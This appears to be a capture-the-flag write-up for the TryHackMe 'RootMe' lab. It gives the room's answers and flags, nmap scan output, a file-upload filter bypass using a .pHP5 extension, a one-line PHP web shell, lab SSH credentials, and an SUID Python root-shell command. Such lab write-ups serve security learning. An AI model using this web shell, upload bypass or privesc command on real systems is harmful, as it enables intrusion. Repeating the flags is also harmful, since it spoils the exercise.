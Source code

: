 # RootMe
##### Question 1: Scan the machine, how many ports are open?
Answer
```bash
2
```

##### Question 2: What version of Apache is running?
Answer
```bash
2.4.29
```

##### Question 3: What service is running on port 22?
Answer
```bash
ssh
```

##### Question 4: What is the hidden directory?
Answer
```bash
/panel/
```

##### Question 5: user.txt
Answer
```bash
THM{y0u_g0t_a_sh3ll}
```

##### Question 6: Search for files with SUID permission, which file is weird?
Answer
```bash
/usr/bin/python
```

##### Question 7: root.txt
Answer
```bash
THM{pr1v1l3g3_3sc4l4t10n}
```

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

Nmap Scan:
```bash

Nmap scan report for 10.10.92.103
Host is up (0.10s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:


```

Command Execution
```bash

upload file to /panel and the upload dir is /upload

it doesnt like .php so make it .pHP5

php shell - <?=`$_GET[0]`?>

call it at /uploads/shell.php?0=id
```

ssh creds: test:test 

```bash
priv esc (From SUID privesc)
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```